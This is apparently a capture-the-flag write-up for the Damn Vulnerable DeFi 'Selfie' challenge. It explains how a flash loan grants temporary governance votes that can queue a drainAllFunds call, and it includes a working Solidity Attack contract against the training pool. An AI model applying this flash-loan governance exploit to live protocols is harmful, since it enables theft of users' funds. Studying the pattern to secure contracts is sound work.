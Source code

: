 ```yaml
---
description: https://www.damnvulnerabledefi.xyz/challenges/selfie/
---
```


# 6. Selfie

### Objective

* A lending pool offering flash loans of DVT tokens.&#x20;
* Includes a fancy governance mechanism to control it.
* You start with no DVT tokens in balance, and the pool has 1.5 million.&#x20;
* Your goal is to take them all.

### Approach

SelfiePool has a `drainAllFunds` function that can only be called by the SimpleGovernance contract.&#x20;

<figure><img src="../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

Let us examine if we can subvert the governance contract for our purposes.

#### SimpleGovernance

Governance is based on the DVT token:

<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

Voting power is based on the proportion of number of tokens held against half of total supply

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

This means that if msg.caller has sufficient DVT tokens such that its balance > halfTotalSupply, msg.caller has sufficient voting power and therefore can queue a governance action successfully.\


<figure><img src="../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

### Solution

1. Attacker to take the largest flash loan from SelfiePool possible,
2. Using voting power from flash loan to pass a governance action via SimpleGovernance using queueAction and executeAction
   1. call drainAllFunds with beneficiary as attacker address

#### queueAction and executeAction

**queueAction** takes in an `address`, `calldata`, and `weiAmount` as parameters. These fields are stored in a struct

* address: target contract address to take action on  ("receiver")
* calldata: abi encoded function signature:

```solidity
bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)", address(this), type(uint256).max
        );
(bool success, bytes memory data) = target.call{value: 111, gas: 5000}(data)ol
```

* weiAmount: this is the value field for `target.call{value:`` `**`value`**`}(data)`
  * basically how much ether to send over

**executeAction**&#x20;

* external, payable
* Anyone can call executeAction, passing an actionId
* only constraints are:&#x20;
  * action has not been executed yet
    * `actionToExecute.executedAt == 0`&#x20;
  * action is ready to be executed (delay has been exceeded)
    * ```solidity
      (block.timestamp - actionToExecute.proposedAt >= ACTION_DELAY_IN_SECONDS)
      ```

The core of executeAction is&#x20;

{% code overflow="wrap" %}
```solidity
actionToExecute.receiver.functionCallWithValue(actionToExecute.data, actionToExecute.weiAmount);
```
{% endcode %}

* functionCallWithValue is from OpenZepplin's Address library:

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption><p><a href="https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol">https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/Address.sol</a></p></figcaption></figure>

Fundamentally, it is a low-level call, where value is the weiAmount and data is the data we passed earlier in queueAction as parameters.

### Solution Code

{% tabs %}
{% tab title="First Tab" %}
<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Code" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0;

import {SimpleGovernance} from "./SimpleGovernance.sol";
import {SelfiePool} from "./SelfiePool.sol";
import {DamnValuableTokenSnapshot} from "./../DamnValuableTokenSnapshot.sol";

contract Attack {
    address owner;
    SelfiePool public selfiePool;
    SimpleGovernance public governance;
    uint256 public drainActionId;

    constructor(SelfiePool selfiePool_, SimpleGovernance governance_) {
        owner = msg.sender;
        selfiePool = selfiePool_;
        governance = governance_;
    }

    ///@notice Take loan from pool
    function borrow(uint256 amount) external {
        require(msg.sender == owner, "only owner");
        selfiePool.flashLoan(amount);
    }

    ///@notice Flashloan callback function
    function receiveTokens(address token, uint256 amount) external {
        require(msg.sender == address(selfiePool), "only pool");

        DamnValuableTokenSnapshot(token).snapshot();

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(owner));
        drainActionId = governance.queueAction(address(selfiePool), data, 0);

        // transfer back funds
        DamnValuableTokenSnapshot(token).transfer(address(selfiePool), amount);
    }
}
```
{% endtab %}
{% endtabs %}

1. Initiate flashloan with borrow()
2. selfiePool contract will callback `receivetokens`; this will lead to execution of the attack.
   1. queueAction: drainAllfunds
   2. return borrowed tokens
3. executeAction can be called by anyone after the defined delay has passed. Therefore we do not need to execute this via contract.&#x20;
4. ```solidity
   DamnValuableTokenSnapshot(token).snapshot();
   ```
   1. this is needed because queueAction calls `_hasEnoughVotes`which calculates addresses balances based on snapshots.

**Note**

The attack component must be shoeboxed into the callback function instead of the initial borrow function.

Execution of flashloan() only completes after the tokens are returned. This means that the following will not work:

```solidity
    function borrow(uint256 amount) external {
        require(msg.sender == owner, "only owner");
        selfiePool.flashLoan(amount);

        bytes memory data = abi.encodeWithSignature("drainAllFunds(address)", address(owner));
        drainActionId = governance.queueAction(address(selfiePool), data, 0);

    }
```

&#x20;Since the flashloan will be settled before the attack code is executed -> without the benefit of borrowed tokens.
